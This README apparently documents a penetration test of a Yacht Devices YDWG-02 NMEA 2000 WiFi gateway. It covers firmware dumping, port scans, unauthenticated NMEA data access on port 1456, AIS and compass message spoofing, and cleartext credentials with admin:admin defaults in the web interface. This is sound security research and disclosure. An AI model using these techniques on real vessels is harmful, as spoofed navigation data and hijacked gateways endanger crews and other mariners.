






# Penetration Testing of Yacth Devices NMEA 2000 Wifi Gateway and Processes

> Note: This repo uses git lfs for large files, make sure to have it installed: https://git-lfs.com/

## 1. Reconnaissance

### 1.1 Physical Hardware

Front Side 


Back Side


After taking a look at the front side of the PCB, we can see that the device is using an [STM32F105RBT6](./assets/pdfs/en.CD00220364.pdf).

### 1.2 Firmware Analysis

File: [WUPDATE.BIN](./assets/WUPDATE/WUPDATE.BIN) comes from v1.72 of the firmware, and is the update file for the device, publicly available on the manufacturer's website.

Running binwalk gives us nothing:
```
binwalk WUPDATE.BIN

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
```
Evaluating the entropy of the file:

```
binwalk -E WUPDATE.BIN

DECIMAL       HEXADECIMAL     ENTROPY
--------------------------------------------------------------------------------
0             0x0             Rising entropy edge (0.972447)
120832        0x1D800         Rising entropy edge (0.977437)
```

This means that the file is either encrypted or compressed.

Let's take a look at the strings in the file:

```
strings WUPDATE.BIN | head
YDMG
1.72
*E$F
:KYb
qo7r&
!(hY}
@hK!W
dBQ1
N}*n
-#`hq
```
And again, we get nothing, but some random gibberish, and very few strings that make sense (like the version number).

Even over the WiFi update process, the firmware still seems encrypted or compressed (see [./assets/pcap](./assets/pcap/))


### 1.2.1 Attempt at Dumping the STM32 Firmware

Unfortunately, LQFP64 line is small, and soldering 30 AWG wire to the pads is hard (see below). 


After many failed attempts of JTAGulating and resoldering, I decided to check the output of the device on boot:


This proves further that JTAG must've been disabled in the firmware, as there is no TCK (yellow), TDI is pulled high (green), TDO has no output (orange), NJTRST is pulled high (red). 

> Note: TMS is absent in this capture.

Even after pulling nJTRST low, the device still doesn't output anything on TDO. This means that JTAG is disabled somehow, because I am wired directly up to the microchip:


#### ... let's move to the ESP8285, since we know it is the chip that is used for updates, and user interaction:

Found boot logs after performing a chip off, with the following pins connected:
ESP8285 Pin | Serial Adapter
|----------------|----------------|
VCC (3.3V) | 3.3V
GND | GND
TXD | RX
RXD | TX
GPIO0 | GND (for bootloader mode)
EN (RST) | 3.3V (pulled-up)


And after that, I got to enabling the bootloader mode, and dumping the firmware:


### 1.2.2 Actually dumping the firmware

The command in the image above didn't get me far, until I did the following:

Ran this command to extract the flash instead:
```
esptool.py -p PORT -b 115200 read_flash 0 ALL flash_contents.bin
```
> https://docs.espressif.com/projects/esptool/en/latest/esp8266/esptool/basic-commands.html

A copy of the firmware is available at [./assets/re/flash_contents.bin](./assets/re/flash_contents.bin).

But that doesn't render well in ghidra, so I used the following tool to convert it to an ELF file:

```
esp2elf flash_contents.bin flash_contents.elf
```

Hell yeah! Now ghidra can confirm the entry point we already figured out from using the esptool:

```
esptool image_info flash_contents.bin

esptool.py v4.8.1
File size: 2097152 (bytes)
Detected image type: ESP8266
Image version: 1
Entry point: 40100438
3 segments

Segment 1: len 0x00968 load 0x40100000 file_offs 0x00000008 [IRAM]
Segment 2: len 0x00308 load 0x3ffe8000 file_offs 0x00000978 [DRAM]
Segment 3: len 0x00278 load 0x3ffe8310 file_offs 0x00000c88 [DRAM]
Checksum: d8 (valid)
```

> https://github.com/esp8266/esp8266-wiki/wiki/Memory-Map

a string dump of the file gives us the following:

```
YDWG
d033e22ae348aeb5660fc2140aec35850c4da997
2.0.0(5a875ba)
 @\&!@
$!@ %!@
%!@$&!@YD CLOUD: Response:
 !"#
 !"#
%s %u
DHCP timeout
@ip_router %d %p
dhcps_start(): could not obtain pcb
err in host connected (%s)
espconn_tcp_delete %d, %d
RecvHold, By pespconn,find conn_msg fail
%s %d
ringbuf_memcpy_from
ringbuf_memcpy_into
ringbuf_nextp
ringbuf_memset
ringbuf_findchr
ringbuf_free
Heap: %ld
*FAILED*
** %s
Flash config restore %s
HTTP port is: %d
Reset cause: %d=%s
exccause=%d epc1=0x%x epc2=0x%x epc3=0x%x excvaddr=0x%x depc=0x%x
Flash map %s, manuf 0x%02X chip 0x%04X
** %s: ready, heap=%ld
Setting max allowed tcp connections: %d
Maximum allowed connections: %d
initializing user application
Waiting for work to do...
1.74
/login
/menu
/version
/serial/setserial
/filters/getfilters
/filters/setfilter
/admin/changepassword
/flash/upload
/flash/reboot
/flash/lasterror
/websocket/nmea.cgi
/wifi/info
/wifi/scan
/wifi/connect
/wifi/connstatus
/wifi/setmode
/wifi/special
/wifi/apinfo
/wifi/apchange
/system/info
/system/update
/system/rundiag
/cloud/reset
/system/memory
/nmea_settings/settings
/nmea_settings/update
/settings/settings
/nmea_settings/ydap
/settings/update
/settings/upd_ti
/settings/upd_xdr
/settings/logging
/settings/upd_ul
/settings/upd_dl
/settings/upd_li
/settings/run_calibration
/home.html
/client.html
/point.html
/server.html
/admin.html
/flash.html
/setsn.html
/filters.html
false
true
Not found
Found, CAN address %d
{ "address": "%s", "mode": "%s", "progress": "%d", "limits": "%s", "rudder": "%s", "vessel": "%s", "compass": "%s"}
{ "server": [
{ "id": "%d", "type": "%d", "protocol": "%d", "port": "%d", "direction": "%d", "enabled": "%s"}%s
],"hardware": "1.00"}
Refreshing settings, try one more time
{ "interval": "%d", "points" : %d, "priority" : %d, "dataset" : %d, "distance" : "%s", "range" : %d, "key" : "%s", "status" : "%s", "has_points" : "%s"}
cleandb
interval
dataset
priority
distance
XDR settings requested
{"autopilot":{"ray_autopilot":"%s","wpt_confirm":"%s","rmb_n2k_var":"%s","yd_autopilot":"%s"},"talkerid":"%c%c","windcalc":"%d","xdr":{
Failed to save config
ray_autopilot
wpt_confirm
rmb_n2k_var
yd_autopilot
can_speed
windcalc
talker_id
ns_type0
ns_protocol0
ns_port0
ns_direction0
ns_enabled0
ns_type1
ns_protocol1
ns_port1
ns_direction1
ns_enabled1
ns_type2
ns_protocol2
ns_port2
ns_direction2
ns_enabled2
?sea baro_p baro_b air_t ins_t air_h ins_h exhaust p_boost s_boost p_hours s_hours p_volt s_volt p_temp s_temp p_rate s_rate yaw pitch roll
Calibration is in progress
Compass calibration is in progress
Vessel parameters calibration is in progress
Rudder calibration is in progress
Rudder limits calibration is in progress
Ready
?HTTP/1.0 200 OK
Server: YDWG
Connection: close
Content-Type: text/plain
HTTP/1.0 200 OK
Server: YDWG
Connection: close
Content-Type: text/html; charset=UTF-8
Cache-Control : max-age=30
keep-alive
close
upload.yachtd.com
/u.php
POST %s HTTP/1.1
Host: %s
Connection: %s
Content-Type: application/octet-stream
Content-Transfer-Encoding: Binary
Content-Length: %d
Content-Disposition: attachment; filename="00%08X.bin"
255.255.255.255
NMEA 0183
Memory
Debug
enabled
disabled
NMEA SERVER[%d]: %s, %s, %d, %d, %s
WSK[0] RX:
SRV[0] RX:
N2000:
</html>
SRV[0] TX:
YDCLOUD:
YD CLOUD: Connected with the server
YD CLOUD: DNS record for the server is not found
YD CLOUD: Connecting to %d.%d.%d.%d server...
YD CLOUD: Connecting (DNS: %d.%d.%d.%d, %d.%d.%d.%d)...
YD CLOUD: Clean up...
%sHTTP: conn pool overflow!
%d.%d.%d.%d:%d
HTTP/1.0 302 Found
Server: YDWG
Connection: close
Location: %s
Redirecting to %s
ERROR
HTTP/1.0 %d %s
Server: YDWG
Connection: close
Switching Protocols
HTTP/1.1 %d %s
Server: YDWG
%s: %s
HTTP/1.0 404 Not Found
Connection: close
Content-Type: text/plain
Content-Length: 12
Not Found.
%shandler for %s returned invalid result %d
GET
POST
Content-Type:
multipart/form-data
boundary=
Content-Length:
text/htm
text/html; charset=UTF-8
text/css
text/javascript
text/plain
image/jpeg
image/png
text/html
?Accept-Encoding
Content-Type
gzip
Content-Encoding
max-age=3600, must-revalidate
Cache-Control
SLIP: bad CRC, crc=%04x rcv=%04x len=%d
\%02X
UART framing error (bad baud rate?)
UART %d baud
UART: max cb count exceeded
cmdGetCbByName: cb %s not found
wifiCb
NULL
SYNC
WIFI_STATUS
ADD_CB
NMEA_GETSERVERS
NMEA_SEND
STM_LOG
STM_SET_TIME
STM_REQ_WIFIMODE
STM_GET_SERIAL
FILTER_GETFILTERS
CMD_STM_REQ_PING
CMD_STM_GET_STATISTICS
CMD_XDR_GET_RESP
CMD_FLASH_RESP
CMD_LOGGING_RESP
CMD_YACHTD_CONNECT
CMD_YACHTD_DATA
CMD_YD_AUTOPILOT
?\Q!@
?HS!@
?dQ!@
Q!@2
&!@3
?\.!@F
?D^!@W
?``!@j
?h5!@M
@no-cache, no-store, must-revalidate
no-cache
Pragma
Expires
application/json
Value for %s too long (%d > %d allowed)
Value for %s out of range
Invalid value for %s
{ "menu": [ "Home", "/home.html", "Wi-Fi Client", "/client.html", "Wi-Fi Access Point", "/point.html", "NMEA Server", "/servers.html", "NMEA Filters", "/filters.html", "NMEA Settings", "/settings.html", "Logging", "/logging.html", "Administration", "/admin.html", "Firmware Update", "/flash.html" ], "name": "%s" }
{ "version": "%s", "sn": "%s", "hardware": "1.00", "build": "%u" }
session=
admin
session
%s=%s; path=/; expires=Tue, 7 Apr 2038 12:25:10;
Set-Cookie
Failed to authenticate
/login.html
%s?r=%s
401 Unauthorized
%s=%s; path=/; expires=Tue, 7 Apr 2038 12:25:11;
Failed to change password
Filters are empty
{ "filters": [
{ "server": "%d", "protocol": "%d", "filter": "%d", "type": "%d", "data": "
server
protocol
type
addr
Wrong request
Wrong address
Refresh
Refreshing to get data...
Request error, try to refresh the page
0x%08X:
%02X
Firmware image too large
Invalid request
Buffering problem
Invalid firmware header
Version of uploaded firmware is less or equal current version
Diagnostics run
Content-Length
DONE
name
http_port
user2.bin
user1.bin
{ "name": "%s", "http_port": "%d", "reset cause": "%d=%s", "size": "%s", "upload-size": "%d", "id": "0x%02X 0x%04X", "partition": "%s"  }
512KB:256/256
256KB
1MB:512/512
2MB:512/512
4MB:512/512
2MB:1024/1024
4MB:1024/1024
normal
wdt reset
exception
soft wdt
restart
deep sleep
external
Sec-WebSocket-Key
258EAFA5-E914-47DA-95CA-C5AB0DC85B11
websocket
Upgrade
upgrade
Connection
Sec-WebSocket-Accept
GET scan: cgiData=%d noAps=%d
{"essid": "%s", "rssi": %d, "enc": "%d"}%c
 "result": {
"inProgress": "1"
{"result": {"inProgress": "0", "APs": [
Can not get IP address, mode %d
Can't associate to an AP en SoftAP mode
essid
passwd
Cannot parse ssid or password
dhcp
staticip
staticnetmask
staticgateway
staticdns
savemode
Request is missing fields
Cannot parse static IP config
{"url": "http://%d.%d.%d.%d"}
{"url": "http://%s"}
apply
{ "ap_ssid": "%s", "ap_password": "%s", "ap_authmode": %d, "ap_maxconn": %d, "ap_beacon": %d, "ap_hidden": "%s"  }
"mode": "%s", "modechange": "%s", "ssid": "%s", "status": "%s", "phy": "802.%s", "rssi": "%ddB", "warn": "%s",  "apwarn": "%s", "mac":"%02x:%02x:%02x:%02x:%02x:%02x", "chan":"%d", "apssid": "%s", "appass": "%s", "apchan": "%d", "apmaxc": "%d", "aphidd": "%s", "apbeac": "%d", "apauth": "%s","apmac":"%02x:%02x:%02x:%02x:%02x:%02x"
, "ip": "%d.%d.%d.%d"
, "netmask": "%d.%d.%d.%d"
, "gateway": "%d.%d.%d.%d"
, "hostname": "%s"
, "ip": "-none-"
, "staticip": "%d.%d.%d.%d"
, "staticgateway": "%d.%d.%d.%d"
, "staticnetmask": "%d.%d.%d.%d"
, "staticdns": "%d.%d.%d.%d"
, "dhcp": "%s"
unspecified
"reason": "%s",
"x":0}
ap_ssid
ap_password
SSID not valid or out of range
Setting AP password len=%d
ap_authmode
PASSWORD not valid or out of range
Forcing AP authmode to WPA_WPA2_PSK
Setting AP authmode=%d
ap_maxconn
ap_channel
ap_beacon
ap_hidden
success
fail
STA config---->
 ssid: %s
 password: %s
 bssid_set: %d
 bssid: %02X:%02X:%02X:%02X:%02X:%02X
AP config---->
 ssid: %s
 password: %s
 ssid_len: %d
 channel: %d
 authmode: %d
 ssid_hidden: %d
 max_connection: %d
 beacon_interval: %d
WiFi mode: %d
YDWG
12345678
Wifi Soft-AP parameters change: %s
OPEN
WPA/PSK
WPA/WPA2/PSK
<a href=\"#\" onclick=\"changeWifiMode(2)\">Switch to Access Point mode</a>
<a href=\"#\" onclick=\"changeWifiMode(3)\">Start Wi-Fi networks scan</a>
<a href=\"#\" onclick=\"changeWifiMode(2)\">Click to stop</a> Wi-Fi scanning
Connecting...
Wrong password
Network not found
Failed
Connected
Client Mode
Access Point
Scan...
Authentication timeout
auth_leave
assoc_expire
assoc_toomany
Not authenticated
not_assoced
assoc_leave
assoc_not_authed
disassoc_pwrcap_bad
disassoc_supchan_bad
ie_invalid
mic_failure
4way_handshake_timeout
group_key_update_timeout
ie_in_4way_differs
group_cipher_invalid
pairwise_cipher_invalid
akmp_invalid
unsupp_rsn_ie_version
invalid_rsn_ie_cap
802.1x authentication failed
cipher_suite_rejected
beacon_timeout
Access Point is not found
?%06x
************ESP Flash Config***************
Sequence: %d
Magic: 0x%04x
Crc: 0x%04x
Hostname: %s
Http port: %d
Static ip: %d.%d.%d.%d
Netmask: %d.%d.%d.%d
Gateway: %d.%d.%d.%d
DNS: %d.%d.%d.%d
Log mode: %d
Max tcp connections: %d
*******************************************
unknown
************ESP Information***************
FW: %s, heap=%ld
Wifi mode: %s
Status: %s
PHY: %s
RSSI: %ddB
APSSID: %s
AP Channel: %d
AP Max connections: %d
APSSID Hidden: %s
AP Beacon interval: %d
AP Auth mode: %s
AP MAC: %02x:%02x:%02x:%02x:%02x:%02x
IP: %d.%d.%d.%d
IP: -none-
?%02i:%02i:%02i.%03i
0123456789ABCDEF
+----------+-------+--------+--------+-------+--------+--------+
|0x%08lx|B %5i|NB %5i|PB %5i|Z %5i|NF %5i|PF %5i|
|0x%08lx|B %5i|NB %5i|PB %5i|Z %5u|NF %5i|PF %5i|
|0x%08lx|B %5i|NB %5i|PB %5i|Z %5u|
Total Entries %5i    Used Entries %5i    Free Entries %5i
Total Blocks  %5i    Used Blocks  %5i    Free Blocks  %5i
+--------------------------------------------------------------+
heap integrity broken: too large next free num: %d (in block %d, addr 0x%lx)
heap integrity broken: free links don't match: %d -> %d, but %d -> %d
heap integrity broken: too large next block num: %d (in block %d, addr 0x%lx)
heap integrity broken: mask wrong at addr 0x%lx: n=0x%x, p=0x%x
heap integrity broken: next block %d is before prev this one (in block %d, addr 0x%lx)
heap integrity broken: block links don't match: %d -> %d, but %d -> %d
Heap Corruption!
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/mac
%02X
%02x
VER2
%6,7,8/7
RNJD@8
|8|9|:|;|<|=|x|y|z|{|||}|
RNJD@8
YDWG
12345678
ESP_DE833A
```
### 1.3 Network Scanning

```
nmap.exe --top-ports 1000 -Pn 192.168.4.1
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-24 14:17 Mountain Daylight Time
Nmap scan report for 192.168.4.1
Host is up (0.0054s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 4E:EB:D6:DE:83:3A (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.20 seconds
```
After connecting the device to the network as a client:
```
Nmap scan report for 192.168.10.71
Host is up (0.0063s latency).
Not shown: 65526 closed tcp ports (reset)
PORT      STATE    SERVICE
80/tcp    open     http
490/tcp   filtered micom-pfs
1456/tcp  open     dca
1458/tcp  open     nrcabq-lm
20178/tcp filtered unknown
25715/tcp filtered unknown
36412/tcp filtered unknown
54978/tcp filtered unknown
61439/tcp filtered netprowler-manager
MAC Address: 4C:EB:D6:86:BA:CC (Espressif)
```

As an attacker, we could identify the two ports mentioned on the documentation (1456 is default NMEA 0183 TX), and ncat to the device to see if we can get any data out of it:

```
ncat.exe 192.168.10.71 1456
$PCDIN,01F211,003A0605,6F,00475D64070000FF*53
$MXPGN,01F211,686F,00475D64070000FF*1C
$PCDIN,01F211,003A0FD3,6F,00475D64070000FF*51
$MXPGN,01F211,686F,00475D64070000FF*1C
$PCDIN,01F211,003A19A2,6F,00475D64070000FF*2B
$MXPGN,01F211,686F,00475D64070000FF*1C
$PCDIN,01F211,003A2370,6F,00475D64070000FF*56
$MXPGN,01F211,686F,00475D64070000FF*1C
```

If the user has set this port as bidirectional (TX/RX), we can even send data to the device, and after it receives the data, it will send it out on the N2K bus. 

## 2. Exploitation

### 2.1 NMEA 0183 Spoofing

> As mentioned in chapter `IV. Configuration of Application Protocols` the YDGW-02 "With the factory settings, Gateway has the Server #1 enabled and pre-configured to
use TCP port 1456 and the NMEA 0183 data protocol.."

This means by default we gain access to **unencrypted** NMEA 0183 data that can be exfiltrated. This data can contain things like positioning, gps data, navigation info, wind and weather, heading and compass, and AIS target info. However, it's not completely insecure by default. You cannot send data to the device, unless the user has set the device to bidirectional communication. Still this is very likely, as the documentation states, `"Note that Gateway server port must be configured to work in both directions («Transmit
Only» in factory settings) to allow control of autopilot from the application."`. 

If any other servers are turned on, data can be sent or received, **completely unauthenticated**, based on the configuration by the user.

An example of what was used to send data to the device can be seen in the [test-nmea0183spoofer.sh](./assets/software/test-nmea0183spoofer.sh) file. The device converts the messages to NMEA 2000, and sends them out on the CAN bus, as seen in the [test-nmea0183spoofer.sh-results.txt](./assets/software/logs/test-nmea0183spoofer.sh-results.txt) file. You can see that the source address stays the same (0x43) but is still dynamically changed, and is currently considered undeterministic.

Another script is also used to extensively test the TCP port on 1456, and it is called [nmea0183-demo.sh](./assets/software/nmea0183-demo.sh). A converted output of the candump log can be seen in the [canboat-output-0183.txt](./assets/software/logs/canboat-output-0183.txt) file.

```
1970-01-01-00:00:20.347 4  67 255 129038 AIS Class A Position Report:  Message ID = Scheduled Class A position report; Repeat Indicator = Initial; User ID = "244698076"; Longitude = 19.9172333; Latitude = 51.2296366; Position Accuracy = High; RAIM = not in use; Time Stamp = 48; COG = 110.7 deg; SOG = 0.00 m/s; Communication State = 00 00 00; AIS Transceiver information = Channel A VDL reception; Heading = Unknown; Rate of Turn = 0.000 deg/s; Nav Status = Under way using engine; Special Maneuver Indicator = Not available; Sequence ID = Unknown
```

> Note: This was parsed using canboat's analyzer tool. 


This video demonstrates the spoofing of messages to the MFD (Multi-Function Display) on the N2K bus, using our testing port 1456 on the YDWG-02. Thus we are able to remotely control the MFD from a device within the RSSI (Radio Signal Strength Indicator) of the YDWG-02.

We just spoofed an AIS message from setting the port (1456) to bidirectional N2K / 0183 on the YDWG, which is widely used in the maritime industry for tracking vessels, and is used by the US Coast Guard to track vessels in the area.

## 2.2 NMEA 2000 Spoofing

If the user also turns on bidirectional communication on the n2k bus. This means we can send any arbitrary message to the bus, given the source address of the YDWG-02. 

As a reminder, these ports are **NOT encrypted, or authenticated in any form**. This means that any attacker with access to the network can send arbitrary messages to the bus, and potentially spoof the devices on the bus (which was proven from the [nmea2k-compass-spoofer.sh](./assets/software/nmea2k-compass-spoofer.sh) file).

### 2.3 Web Application Analysis

The web application is hosted on port 80 (unencrypted HTTP). More information about the web application was found through analysis of the firmware update mechanisms (see [./assets/pcap](./assets/pcap/) and the extracted contents of the firmware file [./assets/binwalk/_flash_contents.bin.extracted](./assets/binwalk/_flash_contents.bin.extracted)).

#### 2.3.1 Burp Suite

Some of the analysis was done using the device as an AP, and some of the analysis was done using the device as a client. If the device is in AP mode, the device is technically more secure, but in client mode, if the device is connected to a public wifi network, it is **much more** vulnerable to attacks, as shown in the following sections.

#### 2.3.1.1 Authentication Bypass

After loging into the YDGW gateway, we can see cleartext credentials pass through an HTTP request, handled by AJAX:

```http
POST /login?1=1&login=admin&password=admin HTTP/1.1
Host: 192.168.4.1
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.4.1
Referer: http://192.168.4.1/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

This means we can easily spin up wireshark, and capture the traffic to see the credentials in cleartext.

which is handled by the following JavaScript:
```javascript
function login(e){
	e.preventDefault();
    var url = "/login?1=1";

    url += "&login=" + $("#login").value.trim().toLowerCase();
    url += "&password=" + $("#password").value.trim();
    var r = findGetParameter("r");    

    var button = $("#login-button");
    addClass(button, "pure-button-disabled");

    ajaxReq("POST", url, function (resp) {
        removeClass(button, "pure-button-disabled");
        if(r !== null)
        	window.location = r
        else
        	window.location = "/home.html"
    }, function (s, st) {
        showWarning("Invalid credentials");
        removeClass(button, "pure-button-disabled");
    });
}
```

We could also possibly brute force the credentials, and gain access to the device. As a reminder the default credentials are `admin:admin` in the web application.

#### 2.3.1.2 Sniffing Access Point Credentials

Given we are connected to the same network as the YDWG-02, we can see the credentials for the access point in cleartext, and we can also see that the device is using a weak password (123456578).

```http
POST /wifi/apchange?100=1&ap_ssid=YDWG&ap_password=123456578&ap_authmode=4&ap_hidden=0 HTTP/1.1
Host: 192.168.4.1
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.4.1
Referer: http://192.168.4.1/point.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
which is handled by the following JavaScript:
```javascript
function changeApSettings(e) {
  e.preventDefault();
  var url = "/wifi/apchange?100=1";
  var i, inputs = document.querySelectorAll("#" + e.target.id + " input,select");
  for (i = 0; i < inputs.length; i++) {
    if (inputs[i].type == "checkbox") {
      var val = (inputs[i].checked) ? 1 : 0;
      url += "&" + inputs[i].name + "=" + val;
    } else {
      var clean = inputs[i].value.replace(/[^!-~]/g, "");
      var comp = clean.localeCompare(inputs[i].value);
      if ( comp != 0 ){
        showWarning("Invalid characters in " + specials[inputs[i].name]);
        return;
      }
      url += "&" + inputs[i].name + "=" + clean;
    }
  };
```

Let's say we are connected to the device in AP mode, and we want to connect to a public wifi network (like McDonald's). We can see the credentials for the access point in cleartext.

```http
POST /wifi/connect?essid=<redacted>&passwd=<redacted> HTTP/1.1
Host: 192.168.4.1
Content-Length: 0
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: */*
Origin: http://192.168.4.1
Referer: http://192.168.4.1/client.html
Accept-Encoding: gzip, deflate, br
Cookie: session=D033E22AE348AEB5660FC2140AEC35850C4DA997
Connection: keep-alive
```
which is handled by the following JavaScript:
```javascript
function changeWifiAp(e) {
  e.preventDefault();
  var passwd = $("#wifi-passwd").value;
  var essid = getSelectedEssid();
  showNotification("Connecting to " + essid);
  var url = "/wifi/connect?essid="+encodeURIComponent(essid)+"&passwd="+encodeURIComponent(passwd);

  hideWarning();
  $("#reconnect").setAttribute("hidden", "");
  $("#wifi-passwd").value = "";
  var cb = $("#connect-button");
  var cn = cb.className;
  cb.className += ' pure-button-disabled';
  blockScan = 1;
  ajaxSpin("POST", url, function(resp) {
      $("#spinner").removeAttribute('hidden'); // hack
      showNotification("Waiting for network change...");
      window.scrollTo(0, 0);
      attempts = 0;	
      window.setTimeout(getStatus, 2000);
    }, function(s, st) {
      showWarning("Error switching network: "+st);
      cb.className = cn;
      window.setTimeout(scanAPs, 1000);
    });
}
```

